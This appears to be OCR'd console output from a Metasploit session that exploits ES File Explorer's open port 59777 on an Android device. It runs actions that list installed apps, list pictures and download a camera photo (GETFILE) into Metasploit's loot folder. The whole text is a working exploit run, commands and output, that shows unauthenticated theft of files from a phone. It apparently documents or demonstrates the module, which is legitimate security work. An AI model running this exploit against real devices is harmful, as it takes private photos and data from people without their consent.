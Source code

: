 ```
action => LISTAPPSALL
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Package Access Helper (com.android.defcontainer) Version: 4.4.2-20150203
  Launcher (com.android.launcher) Version: 4.4.2-20150203
  Contacts (com.android.contacts) Version: 4.4.2-20150203
```
...snip...

```
  com.android.keyguard (com.android.keyguard) Version: 4.4.2-20150203
  Calendar (com.google.android.calendar) Version: 5.8.28-195646716-release
  Face Unlock (com.android.facelock) Version: 4.4.2-940549
  Chrome (com.android.chrome) Version: 67.0.3396.87
  Shell (com.android.shell) Version: 4.4.2-20150203
  Google Contacts Sync (com.google.android.syncadapters.contacts) Version: 4.4.2-940549

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTPICS
action => LISTPICS
resource (es.rb)> run
[+] 1.1.1.1:59777  
  IMG_20190323_165608.jpg (140.06 KB) - 3/23/2019 04:56:08 PM: /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action GETFILE
action => GETFILE
resource (es.rb)> set actionitem /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg
actionitem => /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg
resource (es.rb)> run
[+] 1.1.1.1:59777  - /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg saved to /root/.msf4/loot/20190324073855_default_1.1.1.1_getFile_670725.jpg
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPS
action => LISTAPPS
resource (es.rb)> run
[+] 1.1.1.1:59777  
  TalkBack (com.google.android.marvin.talkback) Version: 5.0.7
  Google Play services (com.google.android.gms) Version: 12.6.85 (000302-197041431)
  Phone (com.andriod.phone) Version: 1.0
  Google Play Music (com.google.android.music) Version: 8.12.7210-1.F
  Google Text-to-speech Engine (com.google.android.tts) Version: 3.15.18.200023596
  Cloud Print (com.google.android.apps.cloudprint) Version: 1.40
  com.softwinner.videotest (com.softwinner.videotest) Version: 1.0
  APUS (com.apusapps.launcher) Version: 2.3.1
  Settings (com.android.system.io.settings) Version: 11.1.0
  DragonPhone (com.softwinner.dragonphone) Version: 1.0
  com.mediatek.touch (com.mediatek.touch) Version: 21_zh80001
  Google Play Store (com.android.vending) Version: 13.9.17-all [0] [PR] 236777123
  com.android.google.settings (com.android.google.settings) Version: 17_zh10317
  MainActivity (com.metasploit.stage) Version: 1.0
  Gmail (com.google.android.gm) Version: 8.6.3.200445973.release
  L-Uninstall (com.clear.uninstall) Version: 2.0
  ES File Explorer (com.estrongs.android.pop) Version: 4.1.9.5.1
  DragonFire-v2.3 (com.softwinner.dragonfire) Version: 2.3 release
  YouTube (com.google.android.youtube) Version: 13.23.59
  Calendar (com.google.android.calendar) Version: 5.8.28-195646716-release
  Chrome (com.android.chrome) Version: 67.0.3396.87

[*] Scanned 1 of 1 hosts (100% complete)
```